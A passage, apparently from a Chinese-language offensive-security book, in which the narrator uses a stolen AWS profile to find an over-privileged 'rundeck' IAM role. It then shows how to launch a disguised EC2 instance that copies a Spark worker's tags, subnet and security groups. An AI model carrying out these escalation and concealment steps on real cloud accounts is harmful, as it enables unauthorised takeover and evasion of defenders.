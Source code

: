 在这些角色中，我们看到了 rundeck，这可能就是我们期待的救世主。Rundeck 是一个自动化工具，用于在基础设施上运行管理员脚本。GP 的基础设施团队似乎并不热衷于使用 Jenkins，因此他们可能将大部分工作负载调度到了 Rundeck 上。让我们使用 Camellia 来查看 rundeck 拥有哪些权限：

```
root@Point1:~/# **aws iam get-attached-role-policies \**
**--role-name rundeck \**
**--profile camellia**

"PolicyName": "rundeck-mono-policy",

# get policy version
root@Point1:~/# **aws iam get-policy --profile camellia \**
**--policy-arn arn:aws:iam::983457354409:policy/rundeck-mono-policy**

"DefaultVersionId": "v13",

# get policy content
root@Point1:~/# **aws iam get-policy-version \**
**--version v13 \**
**--profile camellia \**
**--policy-arn arn:aws:iam::983457354409:policy/rundeck-mono-policy**

"Action":["ec2:*", "ecr:*", "iam:*", "rds:*", "redshift:*",...]
"Resource": "*"
`--snip--`
```

是的，这就是我们需要的角色。rundeck 角色几乎拥有对 AWS 的完全管理员权限。

因此，计划是在与 Spark 集群相同的子网中启动一个实例。我们小心地复制相同的属性，以便在明面上隐藏：安全组、标签，所有内容。我们正在查找这些属性，以便稍后模仿它们：

```
root@Point1:~/# **aws ec2 describe-instances --profile camellia \**
**--filters 'Name=tag:Name,Values=*spark*'**

`--snip--`
"Tags":
  Key: Name  Value: spark-master-streaming
"ImageId": "ami-02df9ea15c1778c9c",
"InstanceType": "m5.xlarge",
"SubnetId": "subnet-00580e48",
"SecurityGroups":
  GroupName: spark-master-all, GroupId: sg-06a91d40a5d42fe04
  GroupName: spark-worker-all, GroupId: sg-00de21bc7c864cd25
`--snip--`
```

我们确切知道 Spark 工作节点可以通过 443 端口访问互联网，因此我们懒得重新验证刚刚确认的安全组，直接复制并粘贴这些安全组，并使用 rundeck 配置文件启动一个新实例：

```
root@Point1:~/# **aws ec2 run-instances \**
**--image-id ami-02df9ea15c1778c9c \**
**--count 1 \**
**--instance-type m3.medium \**
**--iam-instance-profile rundeck \**
**--subnet-id subnet-00580e48 \**
**--security-group-ids sg-06a91d40a5d42fe04 \**
**--tag-specifications 'ResourceType=instance,Tags=**
 **[{Key=Name,Value=spark-worker-5739ecea19a4}]' \**
**--user-data file://my_user_data.sh \**
**--profile camellia \**
**--region eu-west-1**
```
